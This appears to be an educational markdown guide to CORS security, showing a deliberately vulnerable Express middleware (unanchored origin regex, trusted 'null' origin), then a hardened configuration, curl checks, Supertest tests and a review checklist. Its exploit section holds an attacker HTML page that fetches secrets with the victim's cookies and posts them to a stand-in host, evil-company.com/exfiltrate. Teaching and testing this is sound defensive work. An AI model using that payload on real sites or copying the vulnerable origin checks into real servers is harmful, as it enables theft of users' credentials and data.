

# 🚦 Cross-Origin Resource Sharing (CORS) Master Guide

> Demystifying preflight negotiations, credential sharing, dynamic origin reflection traps, and zero-trust API boundaries.

---

## 1. 🎯 Overview & Intuitive Mental Model

### The Production Hook
Perhaps no concept in web engineering causes more confusion—and more high-severity security vulnerabilities—than **Cross-Origin Resource Sharing (CORS)**. When frontend developers encounter the infamous console error:
`Access to fetch at 'https://api.bank.com' from origin 'https://app.bank.com' has been blocked by CORS policy...`
the knee-jerk reaction is frequently to search StackOverflow and slap `res.setHeader('Access-Control-Allow-Origin', '*')` or blindly reflect `req.headers.origin`.

**CRITICAL RULE:** CORS is **NOT** a firewall protecting your backend server. It is a set of HTTP headers that tells the **victim's browser sandbox** whether or not it has permission to hand the response body back to untrusted client-side JavaScript. If an attacker sends a request using `curl`, Python, or Postman, CORS headers are completely ignored.

### 🧠 The Fun Analogy: The "Bilateral Diplomatic Visa"
Imagine you are visiting an art museum in France (`https://louvre.fr`). You bring an interpreter who is an Italian citizen (`https://rome.it`).
- By default, French museum rules (SOP) state: *"Foreign interpreters cannot read the private blueprints of our display vaults."*
- If the Italian interpreter requests the blueprints, the French guards will not hand the translated transcript to the Italian interpreter unless the French Ministry of Culture has explicitly posted a diplomatic decree on the museum door:
  `Access-Control-Allow-Origin: https://rome.it`
- If the Italian interpreter asks to borrow the museum's gold bullion (`credentials: 'include'`), the French guards require a personalized, non-generic visa (`Access-Control-Allow-Credentials: true`). They will **never** accept a generic tourist pass stamped with `*` (Wildcard)!

### Severity & Impact
- **OWASP Category:** [A01:2021 – Broken Access Control](https://owasp.org/Top10/A01_2021-Broken_Access_Control/), [A05:2021 – Security Misconfiguration](https://owasp.org/Top10/A05_2021-Security_Misconfiguration/)
- **Common Weakness Enumeration (CWE):**
  - **CWE-942:** Permissive Cross-Domain Policy with Untrusted Domains
  - **CWE-346:** Origin Validation Error
- **Blast Radius:** Unrestricted extraction of sensitive user profiles, medical records, financial data, internal intranet IP scanning, and authorization token harvesting.

---

## 2. 🎨 Interactive Visual Architecture



> 💡 **Visual Inspection Tip:** Open DevTools (`Network` tab). Look for two requests to the same endpoint: the first will show Method `OPTIONS` (Status `204` or `200`). Inspect `Response Headers`: check `Access-Control-Allow-Origin` and `Access-Control-Max-Age`. A missing preflight indicates a "Simple Request" (GET, HEAD, or POST with standard form content-types).

---

## 3. 💥 Real-World Exploit Walkthrough

### Scenario: The Dangerous Regex Origin Trap
Backend engineers intended to allow access from any subdomain of `company.com` (such as `dashboard.company.com` or `mobile.company.com`). They wrote a flawed regular expression to validate the `Origin` header.

#### ❌ Vulnerable Backend Implementation (Node.js / Express)
```typescript
// vulnerable-cors.ts
import express from 'express';
import cookieParser from 'cookie-parser';

const app = express();
app.use(cookieParser());

app.use((req, res, next) => {
  const origin = req.headers.origin;

  if (origin) {
    // ⚠️ CRITICAL FLAW 1: Flawed Regex!
    // /company.com/ matches 'evil-company.com', 'attackercompany.com', and 'company.com.attacker.org'!
    // The unescaped dot '.' matches ANY character!
    if (/company.com/.test(origin)) {
      res.setHeader('Access-Control-Allow-Origin', origin); // Reflects attacker origin!
      res.setHeader('Access-Control-Allow-Credentials', 'true'); // Allows session cookies!
      res.setHeader('Access-Control-Allow-Methods', 'GET,POST,OPTIONS');
      res.setHeader('Access-Control-Allow-Headers', 'Content-Type, Authorization');
    }
    
    // ⚠️ CRITICAL FLAW 2: Trusting 'null' origin
    // Local files (file://) or sandboxed iframes send Origin: null
    if (origin === 'null') {
      res.setHeader('Access-Control-Allow-Origin', 'null');
      res.setHeader('Access-Control-Allow-Credentials', 'true');
    }
  }

  if (req.method === 'OPTIONS') {
    return res.sendStatus(204);
  }
  next();
});

app.get('/api/internal/secrets', (req, res) => {
  if (req.cookies.session_token === 'valid_session_99') {
    return res.json({
      apiKey: 'sk_live_983471092830192',
      customerEmails: ['ceo@enterprise.com', 'cfo@enterprise.com'],
      internalAwsRole: 'arn:aws:iam::123456789012:role/admin'
    });
  }
  res.status(401).json({ error: 'Unauthorized' });
});

app.listen(5000);
```

#### 💥 The Attacker's Exploit Payload
The attacker registers the domain `https://evil-company.com` or `https://attackercompany.com` (both match `/company.com/`).
```html
<!-- https://evil-company.com/index.html -->
<!DOCTYPE html>
<html>
<head><title>Special Offer</title></head>
<body>
  <h1>Loading your customized promotional discount...</h1>
  <script>
    async function stealSensitiveData() {
      try {
        // Browser attaches logged-in victim's cookies automatically
        const response = await fetch('https://api.company.com/api/internal/secrets', {
          method: 'GET',
          credentials: 'include'
        });

        const data = await response.json();

        // Exfiltrate stolen AWS credentials and API keys
        await fetch('https://evil-company.com/exfiltrate', {
          method: 'POST',
          headers: { 'Content-Type': 'application/json' },
          body: JSON.stringify({ victimData: data })
        });

        console.log('Secrets harvested successfully:', data);
      } catch (err) {
        console.error('Extraction failed:', err);
      }
    }

    stealSensitiveData();
  </script>
</body>
</html>
```

### Browser Behavior Breakdown
1. The victim visits `https://evil-company.com` while authenticated to `https://api.company.com`.
2. The browser initiates a request with `Origin: https://evil-company.com`.
3. The server executes `/company.com/.test("https://evil-company.com")` which evaluates to **true**!
4. The server responds with `Access-Control-Allow-Origin: https://evil-company.com` and `Access-Control-Allow-Credentials: true`.
5. The browser sandbox confirms that the origin matches the response header and exposes the secret payload to the attacker's script.

---

## 4. 🛡️ Resolution & Defense-in-Depth

### Production-Ready Hardened Backend (Node.js / Express / TypeScript)
```typescript
// hardened-cors.ts - SECURE ORIGIN CONTROL
import express from 'express';
import cors, { CorsOptions } from 'cors';
import cookieParser from 'cookie-parser';

const app = express();
app.use(cookieParser());

// 🛡️ 1. Explicit Set-Based Domain Allowlist (Constant-Time Lookup)
const ALLOWED_ORIGINS = new Set<string>([
  'https://company.com',
  'https://app.company.com',
  'https://staging.company.com'
]);

// Helper for exact, anchored regex validation when dynamic preview domains are required
const isValidPreviewOrigin = (origin: string): boolean => {
  // Matches strictly: https://preview-[prNumber].company.com
  const regex = /^https:\/\/preview-[a-z0-9]+\.company\.com$/;
  return regex.test(origin);
};

const corsOptions: CorsOptions = {
  origin: (requestOrigin, callback) => {
    // 🛡️ Defend against missing Origin or 'null' origin exploits
    if (!requestOrigin) {
      // Disallow non-origin requests if this API is strictly meant for browsers
      return callback(null, false);
    }

    if (ALLOWED_ORIGINS.has(requestOrigin) || isValidPreviewOrigin(requestOrigin)) {
      callback(null, true); // Origin accepted
    } else {
      // Reject silently or pass error without reflection
      callback(new Error(`CORS policy violation: Origin ${requestOrigin} is unauthorized.`));
    }
  },
  credentials: true, // Only allows cookies for verified allowlist origins
  methods: ['GET', 'POST', 'PUT', 'DELETE'],
  allowedHeaders: ['Content-Type', 'Authorization', 'X-CSRF-Token'],
  exposedHeaders: ['X-Request-Id'], // Do not expose sensitive internal headers
  maxAge: 86400, // 24 hours: caches preflight in browser to eliminate excess OPTIONS calls
  optionsSuccessStatus: 204 // Legacy browser support
};

app.use(cors(corsOptions));

// 🛡️ 2. Defense-in-Depth: Validate Origin on state-changing API endpoints
app.post('/api/action', (req, res) => {
  const origin = req.headers.origin;
  if (!origin || !ALLOWED_ORIGINS.has(origin)) {
    return res.status(403).json({ error: 'Invalid request origin.' });
  }
  res.json({ success: true });
});

export default app;
```

### CORS Misconfigurations Cheat Sheet

| Misconfiguration ❌ | Danger Level 💥 | Remediation 🛡️ |
|---|---|---|
| `Access-Control-Allow-Origin: *` with credentials | Browsers reject this combination, but API proxies often crash or strip security flags. | Never combine wildcard origins with credentials. |
| Blind reflection: `res.setHeader('Access-Control-Allow-Origin', req.headers.origin)` | **CRITICAL** (Renders CORS completely useless). | Match against an immutable `Set` of trusted URLs. |
| Trusting `Origin: null` | **HIGH** (Allows sandboxed iframes or local files to bypass checks). | Never include `'null'` in your origin allowlist. |
| Unanchored regex (e.g., `/company.com/`) | **CRITICAL** (Matches `evil-company.com` or `company.com.hacker.io`). | Anchor regex with `^https:\/\/` and `\.company\.com$`. |

---

## 5. 🧪 Hands-On Verification & Lab

### Terminal Verification via `curl`
Test your preflight handling and origin rejection directly from the terminal:

```bash
# 1. Test unauthorized origin rejection (Should NOT return Access-Control-Allow-Origin)
curl -I -X OPTIONS https://api.company.com/api/internal/secrets \
  -H "Origin: https://evil-hacker.com" \
  -H "Access-Control-Request-Method: GET"

# Expected: No Access-Control-Allow-Origin header in response!

# 2. Test authorized origin preflight (Should return exact origin + Max-Age)
curl -I -X OPTIONS https://api.company.com/api/internal/secrets \
  -H "Origin: https://app.company.com" \
  -H "Access-Control-Request-Method: GET" \
  -H "Access-Control-Request-Headers: Authorization"

# Expected Output:
# HTTP/2 204
# access-control-allow-origin: https://app.company.com
# access-control-allow-credentials: true
# access-control-max-age: 86400
```

### Automated Integration Test (Supertest)
```typescript
// cors.test.ts
import request from 'supertest';
import app from './hardened-cors';

describe('CORS Policy Enforcement Suite', () => {
  it('strictly rejects malicious domain containing target substring', async () => {
    const res = await request(app)
      .options('/api/internal/secrets')
      .set('Origin', 'https://evil-company.com')
      .set('Access-Control-Request-Method', 'GET');

    expect(res.headers['access-control-allow-origin']).toBeUndefined();
  });

  it('rejects origin: null exploits', async () => {
    const res = await request(app)
      .options('/api/internal/secrets')
      .set('Origin', 'null')
      .set('Access-Control-Request-Method', 'GET');

    expect(res.headers['access-control-allow-origin']).toBeUndefined();
  });

  it('approves legitimate app origin and sets max-age cache', async () => {
    const res = await request(app)
      .options('/api/internal/secrets')
      .set('Origin', 'https://app.company.com')
      .set('Access-Control-Request-Method', 'GET');

    expect(res.headers['access-control-allow-origin']).toBe('https://app.company.com');
    expect(res.headers['access-control-allow-credentials']).toBe('true');
    expect(res.headers['access-control-max-age']).toBe('86400');
  });
});
```

---

## 6. 📋 Code Review Checklist

- [ ] **No Blind Reflection:** Does the backend strictly avoid `res.setHeader('Access-Control-Allow-Origin', req.headers.origin)`?
- [ ] **No Regex Holes:** Are all regexes validating origins strictly anchored (`^https:\/\/...$`) and are dots escaped (`\.`)?
- [ ] **No `null` Origin Allowed:** Is the string `'null'` explicitly banned from the accepted origin list?
- [ ] **Preflight Caching:** Is `Access-Control-Max-Age` configured (e.g., `86400` seconds / 24 hours) to avoid severe latency degradation?
- [ ] **Restricted Headers & Methods:** Are `Access-Control-Allow-Methods` and `Access-Control-Allow-Headers` restricted only to the verbs and headers actually needed?

---

## 7. 🎥 Curated Video Walkthroughs & Primary References

### 📺 High-Impact Video Explanations
- 🎥 [CORS Explained in 100 Seconds (Fireship)](https://www.youtube.com/watch?v=4KHiSt0oLJ0) — Rapid, visual breakdown of why browsers enforce CORS and how preflights work.
- 🎥 [What is CORS? Cross-Origin Resource Sharing Tutorial (Hussein Nasser)](https://www.youtube.com/watch?v=PNtSZZoPTNE) — Deep networking dive into preflight handshakes, TCP sockets, and backend header exchange.
- 🎥 [CORS Vulnerabilities & Exploits Explained (PortSwigger Web Security Academy)](https://www.youtube.com/watch?v=wgkyPrvNWKQ) — Live security walkthrough of unanchored regexes, origin reflection, and `null` origin exploitation.

### 📖 Primary Documentation & Specifications
- 📜 [W3C Fetch Specification: CORS Architecture](https://fetch.spec.whatwg.org/#http-cors-protocol) — The definitive, authoritative browser standard.
- 📜 [MDN Web Docs: Cross-Origin Resource Sharing (CORS)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS) — Complete reference for headers, simple vs. preflighted requests.
- 📜 [OWASP Cheat Sheet: Cross-Origin Resource Sharing Prevention](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Origin_Resource_Sharing_Cheat_Sheet.html) — Secure backend configuration rules.

### 🧪 Interactive Hands-On Training Labs
- 🎯 [PortSwigger Lab: CORS vulnerability with basic origin reflection](https://portswigger.net/web-security/cors/lab-basic-origin-reflection-vulnerability) — Practice stealing API keys via reflected origins.
- 🎯 [PortSwigger Lab: CORS vulnerability with trusted null origin](https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack) — Exploit sandboxed iframe `null` origins in practice.
